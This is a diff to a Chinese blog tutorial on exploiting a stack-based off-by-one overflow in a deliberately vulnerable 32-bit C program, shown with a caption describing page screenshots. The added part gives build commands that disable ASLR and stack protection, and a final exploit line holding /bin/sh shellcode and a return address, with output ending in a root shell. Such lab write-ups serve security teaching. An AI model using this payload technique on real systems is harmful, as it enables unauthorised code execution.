

Before and after one commit to snappyJack/snappyjack.github.io, a Jekyll site: the page built from _posts/2019-11-07-基于栈的Off-By-One漏洞.md, in a window 1280 px wide. Shown: the top 1920 px of the page at 70% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
off_by_one

````diff
--- a/_posts/2019-11-07-基于栈的Off-By-One漏洞.md
+++ b/_posts/2019-11-07-基于栈的Off-By-One漏洞.md
@@ -44,103 +44,22 @@
 编译：
 ```
 echo 0 > /proc/sys/kernel/randomize_va_space
-gcc -fno-stack-protector -z execstack -mpreferred-stack-boundary=2 -o vuln vuln.c -m32	#注意加上-m32 ，64位的mpreferred-stack-boundary是4到12之间
+gcc -fno-stack-protector -z execstack -mpreferred-stack-boundary=2 -o vuln vuln.c -m32 -g	#注意加上-m32 ，64位的mpreferred-stack-boundary是4到12之间
 chmod 777 vuln
 ```
 上述漏洞代码注释的第[2]部分是可能发生off by one溢出的地方。目标缓冲区长度为256，因此长度为256字节的源字符串可能导致任意代码执行。
 
 #### 如何执行任意代码执行？
 
-使用称为“EBP覆盖”的技术实现任意代码执行。如果调用者的EBP位于目标缓冲区之上，则在strcpy之后，单个NULL字节将覆盖调用者EBP的LSB。要了解更多关于off by one,让我们反汇编漏洞代码并绘制它的堆栈布局。
-
-main函数的汇编代码如下
-```
-(gdb) disassemble main
-Dump of assembler code for function main:
- //Function Prologue
- 0x08048497 <+0>: push %ebp                    //backup caller's ebp
- 0x08048498 <+1>: mov %esp,%ebp                //set callee's (main) ebp to esp
- 0x0804849a <+3>: push %edi                    //backup EDI
- 0x0804849b <+4>: sub $0x8,%esp                //create stack space
- 0x0804849e <+7>: mov 0xc(%ebp),%eax           //eax = argv
- 0x080484a1 <+10>: add $0x4,%eax               //eax = &argv[1]
- 0x080484a4 <+13>: mov (%eax),%eax             //eax = argv[1]
- 0x080484a6 <+15>: movl $0xffffffff,-0x8(%ebp) //String Length Calculation -- Begins here
- 0x080484ad <+22>: mov %eax,%edx
- 0x080484af <+24>: mov $0x0,%eax
- 0x080484b4 <+29>: mov -0x8(%ebp),%ecx
- 0x080484b7 <+32>: mov %edx,%edi
- 0x080484b9 <+34>: repnz scas %es:(%edi),%al
- 0x080484bb <+36>: mov %ecx,%eax
- 0x080484bd <+38>: not %eax
- 0x080484bf <+40>: sub $0x1,%eax               //String Length Calculation -- Ends here
- 0x080484c2 <+43>: cmp $0x100,%eax             //eax = strlen(argv[1]). if eax > 256
- 0x080484c7 <+48>: jbe 0x80484e9 <main+82>     //Jmp if NOT greater
- 0x080484c9 <+50>: movl $0x80485e0,(%esp)      //If greater print error string,flush and return.
- 0x080484d0 <+57>: call 0x8048380 <puts@plt>
- 0x080484d5 <+62>: mov 0x804a020,%eax
- 0x080484da <+67>: mov %eax,(%esp)
- 0x080484dd <+70>: call 0x8048360 <fflush@plt>
- 0x080484e2 <+75>: mov $0x1,%eax
- 0x080484e7 <+80>: jmp 0x80484fe <main+103>
- 0x080484e9 <+82>: mov 0xc(%ebp),%eax          //argv[1] <= 256, eax = argv
- 0x080484ec <+85>: add $0x4,%eax               //eax = &argv[1]
- 0x080484ef <+88>: mov (%eax),%eax             //eax = argv[1]
- 0x080484f1 <+90>: mov %eax,(%esp)             //foo arg
- 0x080484f4 <+93>: call 0x8048464              //call foo
- 0x080484f9 <+98>: mov $0x0,%eax               //return value
-
- //Function Epilogue
- 0x080484fe <+103>: add $0x8,%esp              //unwind stack space
- 0x08048501 <+106>: pop %edi                   //restore EDI
- 0x08048502 <+107>: pop %ebp                   //restore EBP
- 0x08048503 <+108>: ret                        //return
-End of assembler dump.
-(gdb) disassemble foo
-Dump of assembler code for function foo:
- //Function prologue
- 0x08048464 <+0>: push %ebp                    //backup caller's (main) ebp
- 0x08048465 <+1>: mov %esp,%ebp                //set callee's (foo) ebp to esp
- 0x08048467 <+3>: sub $0x4,%esp                //create stack space
- 0x0804846a <+6>: mov 0x8(%ebp),%eax           //foo arg
- 0x0804846d <+9>: mov %eax,(%esp)              //bar arg = foo arg
- 0x08048470 <+12>: call 0x8048477              //call bar
-
- //Function Epilogue
- 0x08048475 <+17>: leave                       //unwind stack space + restore ebp
- 0x08048476 <+18>: ret                         //return
-End of assembler dump.
-(gdb) disassemble bar
-Dump of assembler code for function bar:
- //Function Prologue
- 0x08048477 <+0>: push %ebp                    //backup caller's (foo) ebp
- 0x08048478 <+1>: mov %esp,%ebp                //set callee's (bar) ebp to esp
- 0x0804847a <+3>: sub $0x108,%esp              //create stack space
- 0x08048480 <+9>: mov 0x8(%ebp),%eax           //bar arg
- 0x08048483 <+12>: mov %eax,0x4(%esp)          //strcpy arg2
- 0x08048487 <+16>: lea -0x100(%ebp),%eax       //buf
- 0x0804848d <+22>: mov %eax,(%esp)             //strcpy arg1
- 0x08048490 <+25>: call 0x8048370 <strcpy@plt> //call strcpy
-
- //Function Epilogue
- 0x08048495 <+30>: leave                       //unwind stack space + restore ebp
- 0x08048496 <+31>: ret                         //return
-End of assembler dump.
-(gdb)
-```
-
-#### 堆栈布局（这个图是低地址在下，高地址在上！！注意）
-![image](https://note.youdao.com/favicon.ico)
-
-
-header 1 | header 2
----|---
-row 1 col 1 | row 1 col 2
-row 2 col 1 | row 2 col 2
+使用称为“EBP覆盖”的技术实现任意代码执行。如果调用者的EBP位于目标缓冲区之上，则在strcpy之后，单个NULL字节将覆盖调用者EBP的LSB。
 
 
 
-当我们已经知道256字节的用户输入，用空字节可以覆盖foo的EBP的LSB。所以当foo的存储在目标缓冲区“buf”之上的EBP被一个NULL字节所覆盖时，ebp从0xbffff2d8变为0xbffff200。从堆栈布局我们可以看到堆栈位置0xbffff200是目标缓冲区“buf”的一部分，由于用户输入被复制到该目标缓冲区，攻击者可以控制这个堆栈位置（0xbffff200），因此他控制指令指针（eip ）使用他可以实现任意代码执行。让我们通过发送一系列256的“A”来测试它。
+#### 堆栈布局（这个图是低地址在下，高地址在上！！注意）
+
+![Image text](https://raw.githubusercontent.com/snappyJack/snappyjack.github.io/master/img/stack_off_by_one.png)
+
+当我们已经知道256字节的用户输入，用空字节可以覆盖foo的EBP的最低一个字节(LSB)。所以当foo的存储在目标缓冲区“buf”之上的EBP被一个NULL字节所覆盖时，ebp从0xbffff2d8变为0xbffff200。从堆栈布局我们可以看到堆栈位置0xbffff200是目标缓冲区“buf”的一部分，由于用户输入被复制到该目标缓冲区，攻击者可以控制这个堆栈位置（0xbffff200），因此他控制指令指针（eip ）使用他可以实现任意代码执行。让我们通过发送一系列256的“A”来测试它。
 
 **测试步骤1：EBP是否覆盖，从而可能覆盖返回地址？**
 
@@ -150,7 +69,7 @@
 gdb-peda$ p/x $eip
 ```
 结果
-```
+```shell
 Legend: code, data, rodata, value
 Stopped reason: SIGSEGV
 0x41414141 in ?? ()
@@ -159,7 +78,27 @@
 $1 = 0x41414141
 ```
 **测试步骤2：距离目标缓冲区的偏移是多少？**
+```shell
+r `python -c 'print "A"*212 + "C"*4+ "A"*40'`
+
 ```
-r `python -c 'print "A"*212 + "C"*4+ "A"*40'`
-太困了，回家休息会再看
+
+#### 最终exp
+查看buf变量地址
+```shell
+gdb-peda$ p &buf
+$3 = (char (*)[256]) 0xffffd430
 ```
+最终exp
+```shell
+gdb vuln
+gdb-peda$ r `python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"+"A"*187 + "\x30\xd4\xff\xff"+ "A"*40'`
+```
+结果
+```shell
+gdb-peda$ r `python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"+"A"*187 + "\x30\xd4\xff\xff"+ "A"*40'`
+Starting program: /root/sploitfun/vuln `python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"+"A"*187 + "\x30\xd4\xff\xff"+ "A"*40'`
+process 16943 is executing new program: /usr/bin/bash
+Missing separate debuginfos, use: debuginfo-install glibc-2.17-292.el7.i686
+sh-4.2#
+```
````
